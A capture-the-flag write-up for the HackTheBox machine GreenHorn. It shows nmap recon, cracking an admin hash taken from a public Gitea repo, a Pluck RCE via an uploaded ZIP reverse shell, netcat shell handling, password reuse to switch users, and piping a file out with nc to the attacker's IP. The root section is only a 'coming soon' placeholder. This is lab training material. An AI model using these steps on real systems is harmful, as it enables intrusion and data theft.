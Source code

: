 ```yaml
---
title: "Hackthebox: GreenHorn [Machine] [Season 6]"
author: c3l1kd
categories: [Hackthebox]
tags:
  [
    Privilege Escalation,
    Reverse Shell,
    Nmap,
    wfuzz,
    Exploitation,
    Web Server,
  ]
render_with_liquid: false
img_path: /images/hackthebox_greenhorn/
image:
  path: room_image.png
---
```


**GreenHorn** is an easy machine by `HackTheBox` where we are dealing with a Pluck web application , digging around we find the source code of the web app from there we gain access to admin panel where we exploit an `RCE Vulnerability` to have the first footsteps into the host through a reverse shell we escalate our privileges with a reverse pixelation process in order to get access to the root account and pwn the box!

## Initial Enumeration
### Nmap Scan

```console
┌──(kali㉿kali)-[~/Desktop/HackTheBox/GreenHorn]
└─$ nmap -sC -sV 10.10.11.25 -vv -T4 -oN greenhorn.nmap
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-22 16:57 BST
Nmap scan report for 10.10.11.25
Host is up, received syn-ack (0.081s latency).
Scanned at 2024-07-22 16:57:38 BST for 108s
Not shown: 996 closed tcp ports (conn-refused)
PORT      STATE    SERVICE REASON      VERSION
22/tcp    open     ssh     syn-ack     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 57:d6:92:8a:72:44:84:17:29:eb:5c:c9:63:6a:fe:fd (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBOp+cK9ugCW282Gw6Rqe+Yz+5fOGcZzYi8cmlGmFdFAjI1347tnkKumDGK1qJnJ1hj68bmzOONz/x1CMeZjnKMw=
|   256 40:ea:17:b1:b6:c5:3f:42:56:67:4a:3c:ee:75:23:2f (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIEZQbCc8u6r2CVboxEesTZTMmZnMuEidK9zNjkD2RGEv
80/tcp    open     http    syn-ack     nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://greenhorn.htb/
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.18.0 (Ubuntu)
3000/tcp  open     ppp?    syn-ack
| fingerprint-strings: 
|   GenericLines, Help, RTSPRequest: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Cache-Control: max-age=0, private, must-revalidate, no-transform
|     Content-Type: text/html; charset=utf-8
|     Set-Cookie: i_like_gitea=2b902fd2ed32071b; Path=/; HttpOnly; SameSite=Lax
|     Set-Cookie: _csrf=hbNLRwhYbcm71RS5XEXV974Gmmg6MTcyMTY2Mzg3ODM3ODI3MzUwMA; Path=/; Max-Age=86400; HttpOnly; SameSite=Lax
|     X-Frame-Options: SAMEORIGIN
|     Date: Mon, 22 Jul 2024 15:57:58 GMT
|     <!DOCTYPE html>
|     <html lang="en-US" class="theme-auto">
|     <head>
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <title>GreenHorn</title>
|     <link rel="manifest" href="data:application/json;base64,eyJuYW1lIjoiR3JlZW5Ib3JuIiwic2hvcnRfbmFtZSI6IkdyZWVuSG9ybiIsInN0YXJ0X3VybCI6Imh0dHA6Ly9ncmVlbmhvcm4uaHRiOjMwMDAvIiwiaWNvbnMiOlt7InNyYyI6Imh0dHA6Ly9ncmVlbmhvcm4uaHRiOjMwMDAvYXNzZXRzL2ltZy9sb2dvLnBuZyIsInR5cGUiOiJpbWFnZS9wbmciLCJzaXplcyI6IjUxMng1MTIifSx7InNyYyI6Imh0dHA6Ly9ncmVlbmhvcm4uaHRiOjMwMDAvYX
|   HTTPOptions: 
|     HTTP/1.0 405 Method Not Allowed
|     Allow: HEAD
|     Allow: HEAD
|     Allow: GET
|     Cache-Control: max-age=0, private, must-revalidate, no-transform
|     Set-Cookie: i_like_gitea=c7995b3c12500d5a; Path=/; HttpOnly; SameSite=Lax
|     Set-Cookie: _csrf=OlKBqV4gv32ldNqNJ6Ixz5N6jgM6MTcyMTY2Mzg4NDEyOTYwOTY3MA; Path=/; Max-Age=86400; HttpOnly; SameSite=Lax
|     X-Frame-Options: SAMEORIGIN
|     Date: Mon, 22 Jul 2024 15:58:04 GMT
|_    Content-Length: 0
32783/tcp filtered unknown no-response
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We have identified `4` ports using nmap,

- **22/SSH** - (`open`)
- **80/HTTP** - (`open`)
- **3000/HTTP**- (`open`)
- **32783/UNKNOWN** - (`filtered`)

## Web Server at Port 80
visiting the web server on port `80`, the server redirects us to `http://greenhorn.htb`, adding that to the `/etc/hosts`

```console
127.0.0.1       localhost
127.0.1.1       Voldemort
10.10.11.25     greenhorn.htb

# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```
Looking at the web server it seems like it’s running Pluck, a PHP CMS.

![/etc/hosts](01.png){: width="1200" height="800" }

Looking through the web server nothing seems interesting, testing for LFI it doesn’t seem to work neither. Heading to the admin panel, a password is being required and we have been given the Pluck version. As a basic intution, searching that version over exploit-db won’t help us neither.


![/etc/hosts](02.png){: width="1200" height="800" }

## Web Server at Port 3000

As we reach a dead end on port 80, we decided to look at the port 3000 where we found a free-password Gitea repository which had the source code of the web application hosted on port 80 `GreenHorn`


![/etc/hosts](03.png){: width="1200" height="800" }

Digging through the source code looking for config files, we come across a password file located at
`http://greenhorn.htb:3000/GreenAdmin/GreenHorn/src/branch/main/data/settings/pass.php`

![/etc/hosts](04.png){: width="1200" height="800" }

Passing the hash to hashcat we were able to crack it and retrieve the admin password.
```console
┌──(kali㉿kali)-[~/Desktop/HackTheBox/GreenHorn]
└─$ hashcat -a0 -m1700 hash.txt /usr/share/wordlists/rockyou.txt --show
d5443aef1b64544f3685bf112f6c405218c573c7279a831b1fe9612e3a4d[REDACTED]:[REDACTED]
```
Putting the password in `http://greenhorn.htb/login.php` we were able to `login` successfully.

![/etc/hosts](05.png){: width="1200" height="800" }

## Exploitation
### Horizontal Escalation - user.txt
It’s time for a reverse shell, we know that Pluck 4.7.18 is vulnerable to [RCE](https://www.exploit-db.com/exploits/51592), we can upload a malicious ZIP file that contains a PHP script that will establish a connection for us.

```console
┌──(kali㉿kali)-[~/Desktop/HackTheBox/GreenHorn]
└─$ zip reverse.zip reverse.php             
  adding: reverse.php (deflated 59%)
```
![/etc/hosts](06.png){: width="1200" height="800" }
Setting up a listener using netcat, we instantly get a shell as `www-data`!
```console
┌──(kali㉿kali)-[~/Desktop/HackTheBox/GreenHorn]
└─$ nc -lnvp 4444   
listening on [any] 4444 ...
connect to [10.10.15.7] from (UNKNOWN) [10.10.11.25] 57100
Linux greenhorn 5.15.0-113-generic #123-Ubuntu SMP Mon Jun 10 08:16:17 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux
 19:12:53 up 6 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$
```
Upgrading the shell to a stable one,

```console
$ python3 -c "import pty;pty.spawn('/bin/bash')"
www-data@greenhorn:/$ export TERM=xterm
export TERM=xterm
www-data@greenhorn:/$ ^Z
zsh: suspended  nc -lnvp 4444
                                                                                                                      
┌──(kali㉿kali)-[~/Desktop/HackTheBox/GreenHorn]
└─$ stty raw -echo; fg
[1]  + continued  nc -lnvp 4444

www-data@greenhorn:/$
```
Looking for existing users on the host, we find git and junior.

```console
www-data@greenhorn:/$ ls -la /home
total 16
drwxr-xr-x  4 root   root   4096 Jun 20 06:36 .
drwxr-xr-x 20 root   root   4096 Jun 20 07:06 ..
drwxr-x---  2 git    git    4096 Jun 20 06:36 git
drwxr-xr-x  3 junior junior 4096 Jun 20 06:36 junior
www-data@greenhorn:/$
```
Connecting to Junior with the password we got from cracking the hash we were able to switch to Junior’s account

```console
www-data@greenhorn:/tmp$ su junior
Password: 
junior@greenhorn:/tmp$ cd
junior@greenhorn:~$ ls
 user.txt  'Using OpenVAS.pdf'
```
Once we get access to junior we can read the `user.txt` file!

## Vertical Escalation - root.txt

Inside the home directory of junior we can see that there is a PDF file `'Using OpenVAS.pdf'`, we transfer it to our local machine with nc

```console
junior@greenhorn:~$ nc -q 0 10.10.15.7 9000 < 'Using OpenVAS.pdf'
```

<html lang="en">
<head>
  <meta charset="UTF-8">
  <meta name="viewport" content="width=device-width, initial-scale=1.0">

  <style>
    .note-containers {
      max-width: 600px;
      width: 100%;
      padding: 20px;
      background-color: #28a745;
      color: white;
      border-radius: 15px;
      box-shadow: 0 4px 12px rgba(0, 0, 0, 0.1);
      text-align: center;
      margin: 0 auto; /* Ensures the second container is centered */
    }

    .note-containers p {
      font-size: 1.2rem;
      line-height: 1.6;
    }

    .note-containers strong {
      font-weight: bold;
      font-size: 1.3rem;
      color: #ffdd57;
    }
  </style>
</head>
<body>
  <div class="note-containers">
    <p>
      This writeup will be released <strong>soon!</strong>
    </p>
  </div>
</body>
</html>

